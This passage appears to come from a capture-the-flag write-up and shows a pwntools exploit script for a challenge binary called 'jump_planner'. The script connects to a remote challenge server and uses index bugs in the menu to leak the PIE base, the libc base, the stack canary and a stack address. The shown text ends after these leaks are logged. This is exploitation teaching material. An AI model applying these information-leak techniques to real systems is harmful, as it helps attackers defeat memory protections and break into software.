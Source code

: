
## final script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./jump_planner_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.terminal = ["zellij", "action", "new-pane", "-d", "right", "-c", "--", "zsh", "-c"]
context.binary = exe
context.bits = 64

def conn():
    if args.LOCAL:
        r = process(['./run'])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript="")
    else:
        r = remote("jump.chrononaut.xyz", 5000)

    return r


def quick_jump_leak(r, index):
    r.sendline(b"3")
    r.sendline(str(index))
    r.recvuntil(b" Year ")
    leak = int(r.recvuntil(b" "))
    r.recvuntil(b">>")
    return leak

def chunks(lst, n):
    """Yield successive n-sized chunks from lst."""
    for i in range(0, len(lst), n):
        yield lst[i:i + n]

def main():
    r = conn()

    R_DEBUG_OFFSET = 0x3b118

    pie_base  = quick_jump_leak(r, 9) - exe.symbols['main']
    libc.address  = quick_jump_leak(r, 7) - 0x29d90
    ld_address = libc.address + 0x29a000
    canary = quick_jump_leak(r,5)

    r.sendline(b"4")
    r.sendline(b"1337")
    r.sendline(b"-1")
    r.sendline(b"A5")
    r.recvuntil(b"Year 1337 at ")
    manual_jump_rbp = u64(r.recvline().rstrip().ljust(8,b'\x00')) - 0x118
    r.recvuntil(b">>")
    r.recvuntil(b">>")

    log.info(f"manual_jump_rbp @ {hex(manual_jump_rbp)}")
    log.info(f"pie_base @ {hex(pie_base)}")
    log.info(f"libc.address @ {hex(libc.address)}")
    log.info(f"canary @ {hex(canary)}")

```